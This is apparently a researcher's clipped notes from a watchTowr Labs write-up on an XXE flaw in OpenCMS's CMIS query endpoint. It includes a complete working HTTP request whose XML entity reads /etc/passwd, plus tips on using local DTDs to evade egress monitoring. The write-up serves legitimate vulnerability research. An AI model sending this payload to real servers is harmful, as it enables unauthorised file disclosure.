 ```yaml
---
author: Sonny
aliases:
  - XXE
  - You Can Depend on Me
tags:
  - readwise/articles
  - OpenCMS
url: https://labs.watchtowr.com/xxe-you-can-depend-on-me-opencms/?__readwiseLocation=
date: 2024-08-20
---
```

# XXE, You Can Depend on Me

![rw-book-cover](https://labs.watchtowr.com/content/images/2023/11/opencms.png)

For those wondering ‘what is OpenCMS’? Well, it’s an open-source Java framework developed by Alkacon. Boasting over 500 stars on Github, a short Internet search reveals tens of thousands of installations with various versions in use - [http://www.opencms.org/en/](http://www.opencms.org/en/?ref=labs.watchtowr.com).
[](https://read.readwise.io/read/01hh01zyge3mbghgasfevzgg9e)
#vulnerability-research/todo 

## Mapping the servlets

The first thing we always like to do (as we have obsessively blogged about previously) with any Java application is to take a look at all of the servlets and filters available by examining the `web.xml` . These can be detailed within the `url-pattern` XML tags. [](https://read.readwise.io/read/01hh024eh9710xb2f7kc92x6ns)
 ![](https://labs.watchtowr.com/content/images/2023/11/image-2.png)

Above, we can see the `url-pattern` for `/cmisatom/*` is mapped to the servlet class `org.apache.chemistry.opencmis.server.impl.atompub.CmisAtomPubServlet`. 

Just by looking at the classpath we can see it is related to the “Apache Chemistry” library. A quick Google search brings us to the documentation for the endpoint in the context of OpenCMS: [https://documentation.opencms.org/opencms-documentation/interfaces/cmis/index.html](https://documentation.opencms.org/opencms-documentation/interfaces/cmis/index.html?ref=labs.watchtowr.com)

 In short, it provides the ability for remote applications to interact with the file repository of the application’s web root and its relative resources. It is more-or-less a way for headless automation to take place by simulating user presence. [](https://read.readwise.io/read/01hh027a4c15ke3pxykm5f2mt9)

As can be seen below, a number of requests are sent to the target by this ‘TCK’ function. One that caught our attention was the `/query` endpoint, which receives an XML formatted POST request with SQL-like syntax. This syntax is actually Apache Chemistry’s own language (for more info, see [here](https://chemistry.apache.org/docs/cmis-samples/samples/query-examples/index.html?ref=labs.watchtowr.com)). [](https://read.readwise.io/read/01hh02c17wrvp3a42cx7xwn77k)
 ![](https://labs.watchtowr.com/content/images/2023/11/image-5.png)

## Triggering the vulnerability
As a quick test, we threw some common payloads from the ‘payloads all the things’ [repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE?ref=labs.watchtowr.com) at it, and hoped for a quick-and-easy win. Funnily enough, a simple XXE Out of Bounds (OOB) payload works. [](https://read.readwise.io/read/01hh02cgx9a0xy6qhgn0e7829k)

Full request: [](https://read.readwise.io/read/01hh02h540dz7kcxtbd7a5dkgk)
```http
POST /opencms/cmisatom/cmis-online/query HTTP/1.1
Content-Type: application/cmisquery+xml
Host: host
Content-Length: 524
Connection: close

<?xml version='1.0' encoding='UTF-8'?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><cmis:query xmlns:cmis="<http://docs.oasis-open.org/ns/cmis/core/200908/>"><cmis:statement>&test;</cmis:statement><cmis:searchAllVersions>false</cmis:searchAllVersions><cmis:includeAllowableActions>false</cmis:includeAllowableActions><cmis:includeRelationships>none</cmis:includeRelationships><cmis:renditionFilter>cmis:none</cmis:renditionFilter><cmis:maxItems>100</cmis:maxItems><cmis:skipCount>0</cmis:skipCount></cmis:query>
```



### Use a local DTD instead of a remote one
Whilst in our lab environment we have a likely quick route to success, we’re aware that in reality, most large enterprises will usually monitor egress traffic and block fetching external DTD’s, so perhaps we can do better? Posing the question to ourselves, can we sidestep the requirement for an HTTP fetch by including a DTD file which already exists on the server itself?

Whilst it's straight forward for us to find which DTD files exists within our Docker environment, we figured it would be neat to demonstrate from a black box perspective how to discover available DTD's should a target environment differ. [](https://read.readwise.io/read/01hh02e7mfbkhqee2mx4bfvx0t)

For this, we can use the wordlist from the fantastic `dtd-finder` [project](https://github.com/GoSecure/dtd-finder/tree/master/list?ref=labs.watchtowr.com), simply requesting each and filtering error messages. [](https://read.readwise.io/read/01hh02ezm5qer5gzf0pgrb4tw2)
#tools 
![](attachments/dtd-finder-in-burp.png)
As well as the wordlist of DTD files, the `dtd-finder` Github repo also provides corresponding [XXE payloads](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md?ref=labs.watchtowr.com). [](https://read.readwise.io/read/01hh02fte4ygx0k7ddgnmrwkyk)

![](attachments/dtd-finder-exploit.png)

